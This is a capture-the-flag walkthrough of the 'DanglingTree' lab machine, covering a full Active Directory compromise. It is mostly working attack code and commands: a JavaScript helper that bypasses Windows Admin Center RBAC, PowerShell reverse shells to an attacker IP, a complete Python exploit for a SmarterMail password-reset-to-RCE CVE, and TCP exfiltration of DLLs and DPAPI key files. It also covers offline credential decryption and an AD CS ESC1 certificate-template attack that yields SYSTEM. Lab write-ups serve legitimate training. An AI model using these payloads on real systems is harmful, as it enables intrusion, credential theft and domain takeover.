





DanglingTree
1. Reconnaissance
Ports Scan
rustscan -a <target-ip> -- -sC -sV -T4 -oA nmap-resultKey Open Ports:
- 53/88/389/445/636 – AD DC (DNS, Kerberos, LDAP, SMB)
- 80/443 – IIS
- 3389 – RDP
- 6600 – Windows Admin Center (HTTPS)
- Host:
DC/ Domain:danglingtree.htb
echo '<target-ip> danglingtree.htb dc.danglingtree.htb' | sudo tee -a /etc/hostsGuest SMB — IT Share
smbclient -L //danglingtree.htb// -N
# IT share visible
smbclient //danglingtree.htb/IT -N
# \Security\DanglingTree_RoE_Assessment.pdf
pdftotext DanglingTree_RoE_Assessment.pdf DanglingTree_RoE_Assessment.txt
# anderson.w:R3dT3am@Acc3ss#01Let's verify the credential
nxc smb <target-ip> -d danglingtree.htb -u anderson.w -p 'R3dT3am@Acc3ss#01'
# SMB 10.129.10.238 445 DC [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC) (domain:danglingtree.htb) (signing:True) (SMBv1:None) (Null Auth:True)
# SMB 10.129.10.238 445 DC [+] danglingtree.htb\anderson.w:R3dT3am@Acc3ss#01Nice, the credential is valid. Let enumeration more users and shares with that credential.
nxc smb <target-ip> -d danglingtree.htb -u anderson.w -p 'R3dT3am@Acc3ss#01' --shares
nxc smb <target-ip> -d danglingtree.htb -u anderson.w -p 'R3dT3am@Acc3ss#01' --users --rid-brute 30002. Exploitation
Windows Admin Center (port 6600)
Log in at https://danglingtree.htb:6600/ with anderson.w:R3dT3am@Acc3ss#01.

Connecting to the gateway as anderson.w is blocked by RBAC in the UI:

WAC reports version 2511 | build 2.6.4.11:

Attack Vector
The vulnerability exists in the PowerShell execution endpoint
/api/services/WinREST/PowerShell/nodes/<node>/invokeCommandExploitation Requirements
- Valid authenticated WAC session (cookie)
- Matching XSRF-TOKEN for CSRF protection
- Module name and version (discoverable via JavaScript)
- Network access to the WAC gateway
Module Enumeration
The required component values are exposed directly through the client-side JavaScript runtime
({
name: MsftSme.self().Environment.name,
version: MsftSme.self().Environment.version
});
Module in use: msft.sme.shell 6.8.9.
Confirm RCE — invokeWac helper
// First define the helper function
async function invokeWac(script) {
const match = document.cookie.match(/(?:^|; )XSRF-TOKEN=([^;]+)/);
if (!match) throw new Error("XSRF-TOKEN was not present");
const response = await fetch(
"/api/services/WinREST/PowerShell/nodes/dc/invokeCommand",
{
method: "POST",
credentials: "same-origin",
headers: {
"Content-Type": "application/json; charset=UTF-8",
"X-Xsrf-Token": decodeURIComponent(match[1]),
"X-Ms-Sme-Module-Name": "msft.sme.shell",
"X-Ms-Sme-Module-Version": "6.8.9"
},
body: JSON.stringify({
properties: {
script,
command: "Get-WACSMServerConnectionStatus",
module: "Microsoft.SME.ServerManager",
state: "ready",
useInProcRunspace: false,
invokeMode: "Polling"
}
})
}
);
const result = await response.json();
if (!response.ok) throw new Error(JSON.stringify(result));
return result;
}
// Test
const poc = await invokeWac("whoami; hostname");
console.log(poc);From the browser console, the SME PowerShell endpoint still accepts commands via invokeWac — UI RBAC is bypassed. whoami; hostname returns danglingtree\anderson.w / dc:

Reverse Shell as anderson.w
# attacker
nc -lnvp 4444
# browser console
const callbackHost = "<attacker-ip>";
const callbackPort = 4444;
const reverseShell = `
$client = New-Object System.Net.Sockets.TCPClient('${callbackHost}', ${callbackPort});
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | ForEach-Object { 0 };
while (($count = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
$command = (New-Object Text.ASCIIEncoding).GetString($bytes, 0, $count);
$output = Invoke-Expression $command 2>&1 | Out-String;
$prompt = $output + 'PS ' + (Get-Location).Path + '> ';
$send = [Text.Encoding]::ASCII.GetBytes($prompt);
$stream.Write($send, 0, $send.Length);
$stream.Flush();
}
$client.Close();
`;
await invokeWac(reverseShell);PS C:\WINDOWS\system32> whoami
danglingtree\anderson.wLocal Port Discovery
netstat -ano
# TCP 0.0.0.0:17017 LISTENING (SmarterMail web)
# TCP 127.0.0.1:25 / 110 / 143 / 587 / 5222 PID 2140 — same processChisel Pivot → SmarterMail
# attacker
./chisel server --reverse --port 8080
python3 -m http.server 8000
# target
(New-Object Net.WebClient).DownloadFile('http://<attacker-ip>:8000/chisel.exe', 'C:\Windows\Temp\chisel.exe')
C:\Windows\Temp\chisel.exe client <attacker-ip>:8080 R:17017:127.0.0.1:17017Browse http://127.0.0.1:17017:

CVE-2026-23760 — SmarterMail → svc_mail
svc_mail as the mail admin.
We assigned a known password to svc_mail via the anonymous force-reset-password endpoint with RCE via Volume Mounts
Craft the python script
#!/usr/bin/env python3
"""
CVE-2026-23760 - SmarterMail < 9511 admin password reset + RCE via Volume Mounts
"""
import argparse
import json
import time
import urllib.request
def post(base, path, data, token=None, timeout=15):
req = urllib.request.Request(base + path, data=json.dumps(data).encode(), headers={
"Content-Type": "application/json",
}, method="POST")
if token:
req.add_header("Authorization", "Bearer " + token)
with urllib.request.urlopen(req, timeout=timeout) as r:
return r.read().decode()
def reset_admin_password(base, username, new_password):
body = {
"IsSysAdmin": "true",
"OldPassword": "whatever",
"Username": username,
"NewPassword": new_password,
"ConfirmPassword": new_password,
}
resp = json.loads(post(base, "/api/v1/auth/force-reset-password", body))
if not resp.get("success"):
raise RuntimeError(f"Password reset failed: {resp.get('message')} / {resp.get('debugInfo')}")
print(f"[+] Password for '{username}' reset to '{new_password}'")
return resp
def authenticate(base, username, new_password):
auth = json.loads(post(base, "/api/v1/auth/authenticate-user", {
"username": username, "password": new_password, "language": "en",
}))
if not auth.get("success"):
raise RuntimeError("Authentication failed: " + str(auth))
print(f"[+] Authenticated as '{auth.get('username')}' (admin={auth.get('isAdmin')})")
return auth["accessToken"]
def create_mount(base, token, mount_path, command, timeout=12):
payload = {
"mountPath": mount_path,
"commandMount": command,
"commandUnmount": "",
"useArgumentsInCommand": False,
"enabled": True,
}
try:
resp = post(base, "/api/v1/settings/sysadmin/AddOrUpdateMount", payload, token, timeout=timeout)
print(f"[+] AddOrUpdateMount: {resp}")
return resp
except (TimeoutError, urllib.error.URLError):
print("[!] Request timed out (server is waiting on the command). Expected for a "
"persistent reverse shell - check your listener.")
return None
def main():
ap = argparse.ArgumentParser(description="CVE-2026-23760 SmarterMail admin takeover + RCE")
ap.add_argument("target", help="e.g. http://127.0.0.1:17017")
ap.add_argument("--username", default="svc_mail", help="sysadmin username (default: svc_mail)")
ap.add_argument("--password", default="NewPassword123!@#", help="new admin password")
ap.add_argument("--lhost", default="", help="reverse shell listener IP") # change ip here
ap.add_argument("--lport", default="4445", help="reverse shell listener port")
ap.add_argument("--command", default=None, help="custom command (overrides reverse shell)")
ap.add_argument("--no-reset", action="store_true", help="skip password reset if already done")
args = ap.parse_args()
base = args.target.rstrip("/")
if not args.no_reset:
reset_admin_password(base, args.username, args.password)
token = authenticate(base, args.username, args.password)
if args.command:
cmd = args.command
else:
ps = ("$client=New-Object System.Net.Sockets.TCPClient('%s',%s);"
"$stream=$client.GetStream();"
"[byte[]]$bytes=0..65535|%%{0};"
"while(($i=$stream.Read($bytes,0,$bytes.Length))-ne 0){;"
"$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);"
"$sendback=(iex $data 2>&1|Out-String);"
"$sendback2=$sendback+'PS '+(pwd).Path+'> ';"
"$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);"
"$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};"
"$client.Close()") % (args.lhost, args.lport)
# Start-Process detaches the shell so the API call returns immediately
enc = "powershell -nop -w hidden -c \"" + ps.replace(chr(34), chr(92) + chr(34)) + "\""
cmd = "cmd.exe /c start /b " + enc
# Mount path doubles as the unique key - use a fresh one each run to avoid clashes
mount_path = "C:\\Windows\\Temp\\mailmount" + str(int(time.time()))
print(f"[*] Creating volume mount {mount_path}")
print(f"[*] Command: {cmd[:100]}...")
print(f"[*] Start your listener: nc -lvnp {args.lport}")
create_mount(base, token, mount_path, cmd)
if __name__ == "__main__":
main() Run the exploit
# attacker — start listener first
nc -lnvp 4445
python3 smartermail_cve-2026-23760.py http://127.0.0.1:17017 \
--username svc_mail \
--password 'NewPassword123!@#' \
--lhost <attacker-ip> \
--lport 4445
# whoami → danglingtree\svc_mailExploit flow: /api/v1/auth/force-reset-password (IsSysAdmin) → authenticate → AddOrUpdateMount with a reverse-shell command as the mount action.
Noah Password from SmarterMail Backup
dir C:\SmarterMail\Domains
# danglingtree.htb
# danglingtree.htb.bak
dir C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b
# settings.json contains password_encrypted"password_encrypted":"66e7ppLOBF7UdzDv7zK6MJ1rmyUb1Cby"Exfil the crypto assembly for offline analysis:
Send file from target to attacker machine
# attacker
nc -lnvp 60001 > SmarterMail.Standard.dll
# target
$path = 'C:\Program Files (x86)\SmarterTools\SmarterMail\Service\SmarterMail.Standard.dll'
$bytes = [IO.File]::ReadAllBytes($path)
$client = New-Object Net.Sockets.TcpClient('<attacker-ip>', 60001)
$stream = $client.GetStream()
$stream.Write($bytes, 0, $bytes.Length)
$stream.Close()
$client.Close()In dnSpy, search CryptographyHelper. Crack DES offline:
These two password pairs using PyCryptodome
from base64 import b64decode
from Crypto.Cipher import DES
from Crypto.Util.Padding import unpad
ciphertext = b64decode("66e7ppLOBF7UdzDv7zK6MJ1rmyUb1Cby")
keymaps = {
"keymap1": (
bytes([125, 113, 232, 233, 160, 34, 123, 208]),
bytes([224, 222, 8, 14, 29, 138, 139, 223]),
),
"keymap2": (
bytes([180, 63, 132, 209, 16, 180, 233, 145]),
bytes([1, 216, 174, 230, 73, 173, 146, 39]),
),
}
for name, (key, iv) in keymaps.items():
try:
plaintext = unpad(DES.new(key, DES.MODE_CBC, iv).decrypt(ciphertext), 8)
print(f"{name}: {plaintext.decode()}")
except (ValueError, UnicodeDecodeError):
pass
python3 crack.py
# keymap2: RiverDragon#Storm25
RunasCs → noah.b
Since the target does not have a WinRM port open (e.g., 5985), we used Noah's credentials to run RunasCs from the svc_mail shell.
# attacker
nc -lnvp 6666
python3 -m http.server 8000
# target (svc_mail)
(New-Object Net.WebClient).DownloadFile('http://<attacker-ip>:8000/RunasCs.exe', 'C:\Windows\Temp\RunasCs.exe')
C:\Windows\Temp\RunasCs.exe noah.b 'RiverDragon#Storm25' cmd.exe -r <attacker-ip>:6666
# whoami → danglingtree\noah.bBloodHound Collection
To prevent any error, we have synced time to target
sudo ntpdate -u danglingtree.htbWe would prefer use rusthound-ce to help us collect the data
rusthound-ce \
-d danglingtree.htb \
-u 'noah.b@danglingtree.htb' \
-p 'RiverDragon#Storm25' \
-f DC.danglingtree.htb \
-i <target-ip> \
-n <target-ip> \
--dns-tcp --ldaps \
-c All -zAddKeyCredentialLink edge exists on the default DC GPO, but Noah lacks write on that policy — skip it. Focus shifts to stored credentials and further lateral movement.
DPAPI → alex.o
Shell as noah.b
Microsoft's cmdkeyutility will list the currently stored credentials
cmdkey /list
# Target: Domain:target=PC01.danglingtree.htb
# Type: Domain Password
# User: alex.oalex.oseems interesting here. Even though he didn't reveal the password, we were still able to find Noah's credentials and master key file.
powershell
Get-ChildItem "$env:APPDATA\Microsoft\Credentials" -Force
Get-ChildItem "$env:APPDATA\Microsoft\Protect" -Recurse -ForceWe found something interesting. We still need to download them to our local machine for cracking. Exfil master key + credential blob to the attacker:
# attacker
nc -lvnp 6001 > f53fcaba-f057-48e8-8f92-0180d274bf0f
nc -lvnp 6002 > 57FFB67D684C67F09E7153B9C7CC3940
# target
powershell -NoProfile -Command "$p='C:\Users\noah.b\AppData\Roaming\Microsoft\Protect\S-1-5-21-4220238332-57023728-1129110646-1602\f53fcaba-f057-48e8-8f92-0180d274bf0f';$b=[IO.File]::ReadAllBytes($p);$c=[Net.Sockets.TcpClient]::new('<attacker-ip>',6001);$s=$c.GetStream();$s.Write($b,0,$b.Length);$s.Close();$c.Close()"
powershell -NoProfile -Command "$p='C:\Users\noah.b\AppData\Roaming\Microsoft\Credentials\57FFB67D684C67F09E7153B9C7CC3940';$b=[IO.File]::ReadAllBytes($p);$c=[Net.Sockets.TcpClient]::new('<attacker-ip>',6002);$s=$c.GetStream();$s.Write($b,0,$b.Length);$s.Close();$c.Close()"We used the domain password from Impacket's dpapi.py to decrypt the master key:
impacket-dpapi masterkey \
-file f53fcaba-f057-48e8-8f92-0180d274bf0f \
-sid 'S-1-5-21-4220238332-57023728-1129110646-1602' \
-password 'RiverDragon#Storm25'Provide the key to the credential parser
impacket-dpapi credential \
-file 57FFB67D684C67F09E7153B9C7CC3940 \
-key 0x7120d9adb3b8ccd8901bf9e2a29afabcbbcbdb5a13a24a1817bda49097c7ff3c8e5d71f34ae43850a136dc64dbd37061d4f9c34bdbdca21aa8af57d26baad0d8
# alex.o:SunsetMountainPeak@2025Force Change jake.h
alex.o (Support-IT) can force-change password on jake.h.
Now we can try to change the password ofJake.H
bloodyAD -H dc.danglingtree.htb -i <target-ip> \
-d danglingtree.htb \
-u alex.o -p 'SunsetMountainPeak@2025' \
-s set password jake.h 'Admin@123'
# [+] Password changed successfully!3. Privilege Escalation
AD CS — Missing Published Templates
Certipy's initial scan extracted CA-level permissions provided by Helpdesk_Cert_Support:
certipy find \
-u 'jake.h@danglingtree.htb' -p 'Admin@123' \
-dc-ip <target-ip> -dc-host dc.danglingtree.htb \
-stdout | grep -i ManageCertificatesThe group name alone does not prove the delegated permissions. We need to use bloodyAD to query Jake's valid child object permissions
bloodyAD -H dc.danglingtree.htb -i <target-ip> \
-d danglingtree.htb -u jake.h -p 'Admin@123' \
-s get writable --partition CONFIGURATION --right CHILD --detail
# CREATE_CHILD on CN=Certificate Templates and CN=OIDCA publishes template names that have no directory objects:
LDAPTLS_REQCERT=never ldapsearch -LLL -x -H ldaps://<target-ip> \
-D 'jake.h@danglingtree.htb' -w 'Admin@123' \
-b 'CN=danglingtree-DC-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb' \
-s base '(objectClass=pKIEnrollmentService)' certificateTemplates
# includes EmployeeAuthTemplate, RemoteAccessVPN, VPNUserTemplate, ...Continued checking each corresponding object under CN=Certificate Templates
for template in RemoteAccessVPN EmployeeAuthTemplate VPNUserTemplate; do
LDAPTLS_REQCERT=never ldapsearch -LLL -x -H ldaps://<target-ip> \
-D 'jake.h@danglingtree.htb' -w 'Admin@123' \
-b "CN=$template,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb" \
-s base '(objectClass=*)' dn 2>/dev/null
done
# objects missing — Jake can CREATE_CHILD themCreate EmployeeAuthTemplate + ESC1 Config
Use a helper script to create the OID + pKICertificateTemplate object, grant Authenticated Users control, then apply Certipy’s ESC1 defaults:
Let's create a missingEmployeeAuthTemplate.
#!/usr/bin/env python3
import argparse
import secrets
import ssl
import struct
from impacket.ldap import ldaptypes
from ldap3 import ALL, BASE, MODIFY_REPLACE, SUBTREE, Connection, Server, SIMPLE, Tls
from ldap3.protocol.microsoft import security_descriptor_control
CLIENT_AUTH = "1.3.6.1.5.5.7.3.2"
def fail(connection, action):
raise SystemExit(f"[-] {action}: {connection.result}")
def create_ace(sid, mask):
ace = ldaptypes.ACE()
ace["AceType"] = ldaptypes.ACCESS_ALLOWED_ACE.ACE_TYPE
ace["AceFlags"] = 0
ace["Ace"] = ldaptypes.ACCESS_ALLOWED_ACE()
ace["Ace"]["Mask"] = ldaptypes.ACCESS_MASK()
ace["Ace"]["Mask"]["Mask"] = mask
ace["Ace"]["Sid"] = ldaptypes.LDAP_SID()
ace["Ace"]["Sid"].fromCanonical(sid)
return ace
def create_security_descriptor(sid):
descriptor = ldaptypes.SR_SECURITY_DESCRIPTOR()
descriptor["Revision"] = b"\x01"
descriptor["Sbz1"] = b"\x00"
descriptor["Control"] = 0x9C04
descriptor["OwnerSid"] = ldaptypes.LDAP_SID()
descriptor["OwnerSid"].fromCanonical(sid)
descriptor["GroupSid"] = b""
descriptor["Sacl"] = b""
descriptor["Dacl"] = ldaptypes.ACL()
descriptor["Dacl"]["AclRevision"] = 2
descriptor["Dacl"]["Sbz1"] = 0
descriptor["Dacl"]["Sbz2"] = 0
descriptor["Dacl"].aces = [
create_ace(sid, 983551),
create_ace("S-1-5-11", 131220),
]
return descriptor
parser = argparse.ArgumentParser(
description="Create a certificate-template OID and an initial template object over LDAPS"
)
parser.add_argument("-H", "--host", required=True)
parser.add_argument("-u", "--user", required=True)
parser.add_argument("-p", "--password", required=True)
parser.add_argument("-t", "--template", default="EmployeeAuthTemplate")
args = parser.parse_args()
tls = Tls(validate=ssl.CERT_NONE)
server = Server(args.host, port=636, use_ssl=True, tls=tls, get_info=ALL)
connection = Connection(
server,
user=args.user,
password=args.password,
authentication=SIMPLE,
auto_bind=True,
check_names=False,
)
config_dn = server.info.other["configurationNamingContext"][0]
oid_base = f"CN=OID,CN=Public Key Services,CN=Services,{config_dn}"
template_base = f"CN=Certificate Templates,CN=Public Key Services,CN=Services,{config_dn}"
template_dn = f"CN={args.template},{template_base}"
connection.search(template_dn, "(objectClass=*)", BASE, attributes=["cn"])
template_exists = bool(connection.entries)
if not template_exists:
connection.search(oid_base, "(objectClass=*)", BASE, attributes=["msPKI-Cert-Template-OID"])
root_oid = connection.entries[0]["msPKI-Cert-Template-OID"].value
connection.search(
oid_base,
"(objectClass=msPKI-Enterprise-Oid)",
SUBTREE,
attributes=["msPKI-Cert-Template-OID"],
)
prefix = f"{root_oid}.1."
indexes = []
for entry in connection.entries:
value = entry["msPKI-Cert-Template-OID"].value
if value and value.startswith(prefix) and value[len(prefix) :].isdigit():
indexes.append(int(value[len(prefix) :]))
index = max(indexes, default=0) + 1
template_oid = f"{prefix}{index}"
oid_cn = f"{index}.{secrets.token_hex(16).upper()}"
oid_dn = f"CN={oid_cn},{oid_base}"
oid_attributes = {
"objectClass": ["top", "msPKI-Enterprise-Oid"],
"cn": oid_cn,
"displayName": args.template,
"flags": 1,
"msPKI-Cert-Template-OID": template_oid,
}
if not connection.add(oid_dn, attributes=oid_attributes):
fail(connection, "OID creation failed")
template_attributes = {
"objectClass": ["top", "pKICertificateTemplate"],
"cn": args.template,
"displayName": args.template,
"instanceType": 4,
"showInAdvancedViewOnly": True,
"flags": 0,
"revision": 1,
"pKIDefaultKeySpec": 2,
"pKIKeyUsage": b"\x86\x00",
"pKIMaxIssuingDepth": -1,
"pKICriticalExtensions": ["2.5.29.19", "2.5.29.15"],
"pKIExpirationPeriod": struct.pack("<q", -315360000000000),
"pKIOverlapPeriod": struct.pack("<q", -36288000000000),
"pKIExtendedKeyUsage": [CLIENT_AUTH],
"pKIDefaultCSPs": [
"2,Microsoft Base Cryptographic Provider v1.0",
"1,Microsoft Enhanced Cryptographic Provider v1.0",
],
"msPKI-RA-Signature": 0,
"msPKI-Enrollment-Flag": 0,
"msPKI-Private-Key-Flag": 16,
"msPKI-Certificate-Name-Flag": 1,
"msPKI-Minimal-Key-Size": 2048,
"msPKI-Template-Schema-Version": 1,
"msPKI-Template-Minor-Revision": 1,
"msPKI-Cert-Template-OID": template_oid,
}
if not connection.add(template_dn, attributes=template_attributes):
connection.delete(oid_dn)
fail(connection, "template creation failed")
print(f"[+] OID: {template_oid}")
print(f"[+] OID DN: {oid_dn}")
descriptor = create_security_descriptor("S-1-5-11").getData()
changes = {"nTSecurityDescriptor": [(MODIFY_REPLACE, [descriptor])]}
control = security_descriptor_control(sdflags=0x04)
if not connection.modify(template_dn, changes, controls=control):
fail(connection, "DACL update failed")
print(f"[+] Template: {template_dn}")
print("[+] Authenticated Users received full control")python3 create_template.py \
-H dc.danglingtree.htb \
-u 'jake.h@danglingtree.htb' \
-p 'Admin@123' \
-t EmployeeAuthTemplatecertipy template \
-u 'jake.h@danglingtree.htb' -p 'Admin@123' \
-dc-ip <target-ip> -dc-host dc.danglingtree.htb \
-template EmployeeAuthTemplate \
-write-default-configuration S-1-5-11 \
-no-save -forcecertipy find \
-u 'jake.h@danglingtree.htb' -p 'Admin@123' \
-dc-ip <target-ip> -dc-host dc.danglingtree.htb \
-vulnerable
# ESC1 — enrollee supplies subject, client auth
# ESC15 — schema v1
# ESC4 — template owned by userRequest Admin Cert → SYSTEM
ESC1 allows Jake to request a client authentication certificate for another principal. We first query the domain SID and append the administrator RID 500
rpcclient -U 'DANGLINGTREE/jake.h%Admin@123' dc.danglingtree.htb -c 'lsaquery'
# domain SID → append RID 500 for AdministratorTo prevent any errors, we start time sync
sudo ntpdate -u danglingtree.htbContinue requesting a certificate containing the administrator UPN and object SID.
certipy req \
-u 'jake.h@danglingtree.htb' -p 'Admin@123' \
-dc-ip <target-ip> -dc-host dc.danglingtree.htb \
-ca danglingtree-DC-CA \
-template EmployeeAuthTemplate \
-upn 'administrator@danglingtree.htb' \
-sid 'S-1-5-21-4220238332-57023728-1129110646-500' \
-dynamic-endpoint \
-out administrator.pfxFinally, verify the certificate.
certipy auth \
-pfx administrator.pfx \
-dc-ip <target-ip> \
-domain danglingtree.htb \
-username administratorWe get administrator hash and were able to obtain a shell using Impacket's psexec.py.
impacket-psexec \
'danglingtree.htb/Administrator@dc.danglingtree.htb' \
-hashes ':<NT-HASH>'
# whoami → nt authority\system4. Flag Paths
- User flag:
C:\Users\noah.b\Desktop\user.txt - Root flag:
C:\Users\Administrator\Desktop\root.txt